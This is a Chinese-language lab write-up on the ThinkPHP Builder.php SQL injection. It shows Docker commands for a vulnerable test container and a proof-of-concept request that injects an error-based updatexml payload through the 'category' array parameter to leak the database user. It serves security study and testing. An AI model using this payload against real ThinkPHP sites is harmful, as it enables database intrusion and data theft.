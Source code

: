 ```yaml
---
layout: post
title: "ThinkPHP Builder.php SQL注入漏洞"
date: 2018-04-16 20:12:41 +0800
image: '/assets/img/'
description: 'ThinkPHP Builder.php SQL注入漏洞'
main-class: 'warning'
color: '#B31917'
tags:
- ThinkPHP
- SQLI
categories:
- ThinkPHP
twitter_text: 'ThinkPHP Builder.php SQL注入漏洞环境'
introduction: 'ThinkPHP Builder.php SQL注入漏洞环境'
---
```


## ThinkPHP Builder.php SQL注入漏洞

### 漏洞信息

 - [敏信审计系列之THINKPHP3.2开发框架](https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA)
 - [代码审计ThinkPHP 5.0.x 框架SQL注入](https://mp.weixin.qq.com/s/lNaH2-AAtk9JVKbbCBeIRA)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:t_thinkphp_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:80 medicean/vulapps:t_thinkphp_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 80

#### PoC

1.访问 `http://127.0.0.1/`，测试服务是否启动成功。

 > 该 Demo 是个消息盒子，灰色是已读消息，黑色为未读消息，当批量标记已读时，会触发漏洞

 ![](http://vulapps.poetn.cc/images/t_thinkphp_1_1.png)

2.打开Burp，开启抓包，选择消息类别后，点击「标记已读」按钮，截获到数据包

 该请求为 GET, 请求的 URL 为: 
 ```bash
http://127.0.0.1/Home/Index/readcategorymsg?category=%E7%B3%BB%E7%BB%9F%E6%B6%88%E6%81%AF
 ```
 ![](http://vulapps.poetn.cc/images/t_thinkphp_1_2.png)

3.修改GET参数`category`,提交到服务端后页面出现SQL注入报错结果:
 ```bash
http://127.0.0.1/Home/Index/readcategorymsg?category[0]=bind&category[1]=0 and (updatexml(1,concat(0x7e,(user())),0))
 ```
 ![](http://vulapps.poetn.cc/images/t_thinkphp_1_3.png)
 > 如果使用了参考文章中的 exp , 在尝试的时候出现`1690:DOUBLE value is out of range in 'exp(~((select 'a'.'user()' from (select user() AS 'user()') 'a')))'` 只返回了语句并未报出结果，是因为使用的 mysql exp 报错注入会因为 mysql 版本的原因可能会不成功，建议使用 updatexml 来进行

 **注意：当DEBUG模式关闭时，不会显示报错信息！**

### 参考链接

- [敏信审计系列之THINKPHP3.2开发框架](https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA)
- [代码审计ThinkPHP 5.0.x框架SQL注入](https://mp.weixin.qq.com/s/lNaH2-AAtk9JVKbbCBeIRA)
